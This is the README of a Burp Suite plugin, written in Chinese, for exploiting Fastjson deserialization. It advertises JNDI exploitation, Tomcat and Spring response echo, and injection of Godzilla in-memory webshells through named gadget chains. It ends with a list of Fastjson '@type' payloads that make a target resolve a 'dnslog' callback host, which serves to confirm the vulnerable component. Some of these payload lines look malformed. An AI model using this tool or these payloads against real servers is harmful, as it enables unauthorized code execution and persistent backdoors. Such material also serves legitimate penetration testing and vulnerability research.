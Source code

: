 # fastjson-exp
fastjson利用，burp插件。
支持jndi利用检测，tomcat、spring回显，哥斯拉内存马，回显利用链为dhcp、ibatis、c3p0，内存马支持tomcat89
# 用法
加载到burp插件，自行选择echo、jndi、inject。
探测存在后，发送Repeater自行修改请求头，回显在响应头。如下
![image](https://user-images.githubusercontent.com/38367493/158349823-b52b658a-e734-4fe1-9096-e2272c1e8cde.png)

![image](https://user-images.githubusercontent.com/38367493/158350504-07f05d22-2f28-41b8-8903-9f462f7b8292.png)

![image](https://user-images.githubusercontent.com/38367493/158349892-9931206f-2feb-4ea8-b682-bd41296a93dc.png)

# 测试环境
tomcat启动后，将war包放在webapps目录即（tomcat自带dhcp依赖），漏洞环境为1.2.24和1.2.47。

# 判断是否使用fastjon组件
dns
● {"@type":"java.net.Inet4Address","val":"dnslog"}

● {"@type":"java.net.Inet6Address","val":"dnslog"}

● {"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog"}}

● {{"@type":"java.net.URL","val":"http://dnslog"}:0

● {"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"http://dnslog"}}""}

● Set[{"@type":"java.net.URL","val":"http://dnslog"}]
